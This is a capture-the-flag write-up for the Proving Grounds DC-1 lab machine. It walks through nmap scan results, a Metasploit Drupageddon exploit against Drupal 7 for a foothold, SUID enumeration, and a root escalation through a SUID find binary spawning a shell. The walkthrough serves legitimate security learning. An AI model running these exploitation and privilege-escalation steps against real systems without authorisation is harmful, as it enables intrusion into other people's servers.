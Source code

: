 ```yaml
---
title: "Proving grounds Play: DC-1"
layout: post
date: 2023-09-03 01:00
categories: writeup
---
```


Proving grounds Play - DC-1 CTF writeup.

## Nmap

```sh
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

Drupal Site running version 7.0, version extracted from the page source.

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
  <title>User account | Drupal Site</title>
```

Drupan 7 is vulnerable to Druppageddon vulnerability.

## Initial Foothold using Metasploit

```sh
exploit/multi/http/drupal_drupageddon
set rhosts
set lhost
exploit
```

![img](/assets/images/CTF/Proving_Grounds/DC-1/msf.png)

**User shell obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-1/shell.png)

## Enumerate SUIDs

```sh
find / -perm -u=s -type f 2>/dev/null
```

**SUIDs**

```text
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

Binary `find` is in SUIDs. Search for exploit using GTFOBins.

### GTFO Bins exploit

```sh
find . -exec “/bin/dash” \; -quit
```

## Privilege Escalation

Create a file in the `tmp` directory for the exploit to work successfully.

Run the below expoit code to obtain root shell.

```sh
find file -exec "/bin/dash" \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/DC-1/root.png)

**Root shell obtained.**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).